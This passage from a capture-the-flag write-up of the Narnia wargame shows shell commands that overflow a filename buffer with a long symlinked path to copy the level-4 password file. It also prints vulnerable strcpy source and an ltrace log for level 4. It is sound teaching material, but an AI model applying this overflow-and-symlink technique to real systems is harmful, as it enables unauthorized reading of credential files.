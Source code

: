     /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```
Alright so we can overflow the ```ofile``` buffer with the name of a file we are allowed to read. We just need to create a file with a name big enough to overflow the buffer, that is a symbolic link to our desired password file. But since we are not allowed to have ```/``` in Linux for obvious reasons, we will need to create an additional directory.
```
narnia3@narnia:/narnia$ python -c 'print "a" * 28'
aaaaaaaaaaaaaaaaaaaaaaaaaaaa
narnia3@narnia:/narnia$ mkdir -p /tmp/aaaaaaaaaaaaaaaaaaaaaaaaaaa/tmp/
narnia3@narnia:/narnia$ ln -sf /etc/narnia_pass/narnia4 /tmp/aaaaaaaaaaaaaaaaaaaaaaaaaaa/tmp/flag
narnia3@narnia:/narnia$ ./narnia3 /tmp/aaaaaaaaaaaaaaaaaaaaaaaaaaa/tmp/flag
copied contents of /tmp/aaaaaaaaaaaaaaaaaaaaaaaaaaa/tmp/flag to a safer place... (/tmp/flag)
narnia3@narnia:/narnia$ cat /tmp/flag
```
And there's our flag!

## Level 4 -> 5 ##
Let us see what narnia is up to this time
```
narnia4@narnia:~$ cd /narnia/
narnia4@narnia:/narnia$ cat narnia4
narnia4    narnia4.c  
narnia4@narnia:/narnia$ cat narnia4.c 
```
```
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```
Looking at the ```ltrace``` it would seem that the binary tries to null out an external array of strings containing the names of environment variables:
```
narnia4@narnia:/narnia$ ltrace ./narnia4 
__libc_start_main(0x80484ab, 1, 0xffffd6a4, 0x8048530 <unfinished ...>
strlen("LC_ALL=en_US.UTF-8")                                            = 18
memset(0xffffd7f6, '\0', 18)                                            = 0xffffd7f6
strlen("LS_COLORS=rs=0:di=01;34:ln=01;36"...)                           = 1467
memset(0xffffd809, '\0', 1467)                                          = 0xffffd809
strlen("LC_MEASUREMENT=ro_RO.UTF-8")                                    = 26
memset(0xffffddc5, '\0', 26)                                            = 0xffffddc5
strlen("SSH_CONNECTION=82.79.100.14 3931"...)                           = 51
memset(0xffffdde0, '\0', 51)                                            = 0xffffdde0
strlen("LC_PAPER=ro_RO.UTF-8")                                          = 20
memset(0xffffde14, '\0', 20)                                            = 0xffffde14
strlen("LC_MONETARY=ro_RO.UTF-8")                                       = 23
memset(0xffffde29, '\0', 23)                                            = 0xffffde29